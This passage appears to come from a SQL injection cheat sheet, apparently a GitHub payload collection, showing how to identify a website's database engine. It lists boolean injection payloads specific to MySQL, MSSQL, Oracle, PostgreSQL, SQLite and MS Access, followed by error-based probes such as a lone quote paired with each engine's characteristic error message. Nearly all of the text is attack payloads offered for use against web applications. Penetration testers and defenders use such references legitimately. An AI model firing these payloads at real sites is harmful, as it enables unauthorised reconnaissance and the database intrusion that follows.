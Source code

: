 Certain SQL keywords are specific to particular database management systems (DBMS). By using these keywords in SQL injection attempts and observing how the website responds, you can often determine the type of DBMS in use.

| DBMS                | SQL Payload                     |
| ------------------- | ------------------------------- |
| MySQL               | `conv('a',16,2)=conv('a',16,2)` |
| MySQL               | `connection_id()=connection_id()` |
| MySQL               | `crc32('MySQL')=crc32('MySQL')` |
| MSSQL               | `BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)` |
| MSSQL               | `@@CONNECTIONS>0` |
| MSSQL               | `@@CONNECTIONS=@@CONNECTIONS` |
| MSSQL               | `@@CPU_BUSY=@@CPU_BUSY` |
| MSSQL               | `USER_ID(1)=USER_ID(1)` |
| ORACLE              | `ROWNUM=ROWNUM` |
| ORACLE              | `RAWTOHEX('AB')=RAWTOHEX('AB')` |
| ORACLE              | `LNNVL(0=123)` |
| POSTGRESQL          | `5::int=5` |
| POSTGRESQL          | `5::integer=5` |
| POSTGRESQL          | `pg_client_encoding()=pg_client_encoding()` |
| POSTGRESQL          | `get_current_ts_config()=get_current_ts_config()` |
| POSTGRESQL          | `quote_literal(42.5)=quote_literal(42.5)` |
| POSTGRESQL          | `current_database()=current_database()` |
| SQLITE              | `sqlite_version()=sqlite_version()` |
| SQLITE              | `last_insert_rowid()>1` |
| SQLITE              | `last_insert_rowid()=last_insert_rowid()` |
| MSACCESS            | `val(cvar(1))=1` |
| MSACCESS            | `IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0` |

### DBMS Identification Error Based

Different DBMSs return distinct error messages when they encounter issues. By triggering errors and examining the specific messages sent back by the database, you can often identify the type of DBMS the website is using.

| DBMS                | Example Error Message                                                                    | Example Payload |
| ------------------- | -----------------------------------------------------------------------------------------|-----------------|
| MySQL               | `You have an error in your SQL syntax; ... near '' at line 1`                            | `'`             |
| PostgreSQL          | `ERROR: unterminated quoted string at or near "'"`                                       | `'`             |
| PostgreSQL          | `ERROR: syntax error at or near "1"`                                                     | `1'`            |
| Microsoft SQL Server| `Unclosed quotation mark after the character string ''.`                                 | `'`             |
| Microsoft SQL Server| `Incorrect syntax near ''.`                                                              | `'`             |
| Microsoft SQL Server| `The conversion of the varchar value to data type int resulted in an out-of-range value.`| `1'`            |
| Oracle              | `ORA-00933: SQL command not properly ended`                                              | `'`             |